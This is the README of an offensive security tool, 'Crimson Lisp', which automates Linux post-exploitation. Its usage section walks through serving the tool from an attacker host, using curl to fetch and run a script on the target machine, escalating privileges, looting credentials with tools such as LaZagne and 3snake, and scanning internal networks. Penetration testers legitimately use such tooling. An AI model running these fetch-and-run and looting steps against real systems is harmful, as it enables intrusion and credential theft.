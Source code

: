 # Crimson Lisp

> Crimson Lisp is a tool that automates post-exploitation `PRIVILEGE ESCALATION` & `LOOTING` phases.
> It uses many open source tools. Most of them are available for download from GitHub.

<p align="center">
  <img src="lisp.png" />
</p>

# Installation
```
git clone https://github.com/Karmaz95/crimson_lisp.git
```
If hosted from Windows, convert the line endings of the script file from Windows-style (CRLF) to Unix-style (LF):
```
dos2unix tools/les.sh tools/linpeas.sh lisp.sh
```
Using VScode:
```
1. Open the script file in Visual Studio Code.
2. Look at the bottom right corner of the editor. You should see a label that displays the current line endings used in the file. It should either say "CRLF" or "LF".
3. Click on the label and select "LF". This will change the line endings of the file to Unix-style.
4. Save the file by going to File > Save.
```
# Usage
## FIRST UPDATE THE TOOL
```
chmod +x update.sh
./update.sh
```
## ON THE HOST MACHINE
```bash
cd crimson_lisp
sudo python3 -m http.server 80
```
## ON THE TARGET MACHINE 
### 1. DOWNLOAD THE TOOLS
```bash
curl -s -k http://127.0.0.1/lisp.sh -o lisp.sh; chmod +x lisp.sh
./lisp.sh -u "http://127.0.0.1/"
```
### 2. ESCALATE THE PRIVILEGES
```bash
./lisp.sh -e
```
### 3. LOOT THE SYSTEM
```bash
sudo ./lisp.sh -l
```
### 4. NETWORK DISCOVERY (as root)
#### 4.1. PING SWEEP
```bash
./nping INTERNAL_IP/24
```
#### 4.2. NMAP SCAN
```bash
./run-nmap.sh -Pn INTERNAL_IP -p- --append-output -oA all_ports_scan
```
#### 4.3 TOP PORTS SCAN
```bash
./run-nmap.sh -Pn 172.22.11.1/24 --top-ports 1000 --append-output -oA AD_ports
```

# HISTORY
> If you are curious about how it works, read my blog:
* [MEDIUM](https://karol-mazurek95.medium.com/crimson-lisp-36d4891437d5)

# List of utilized tools
> The following tools are used in `Crimson Lisp`. I encourage you to study the links below. They will help you in your work.

* [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
* [pspy](https://github.com/DominicBreuker/pspy)
* [traitor](https://github.com/liamg/traitor)
* [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* [The LaZagne Project](https://github.com/AlessandroZ/LaZagne)
* [3snake](https://github.com/blendin/3snake)

# LICENSE
> This program is free software: you can redistribute it and/or modify it under the terms of the [Apache License](https://choosealicense.com/licenses/apache-2.0/). Crimson Lisp and any contributions are Copyright © by Karol Mazurek 2022.

# SUPPORT
> You can support the project by buying me a coffee or via [NFT](https://opensea.io/assets/matic/0x2953399124f0cbb46d2cbacd8a89cf0599974963/63545429842149574507305116647116186975620361263604520406486432940112228647212/) which unlock the secret Crimson Web community.

<a href="https://www.buymeacoffee.com/karmaz95" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-red.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 200px !important;" ></a>
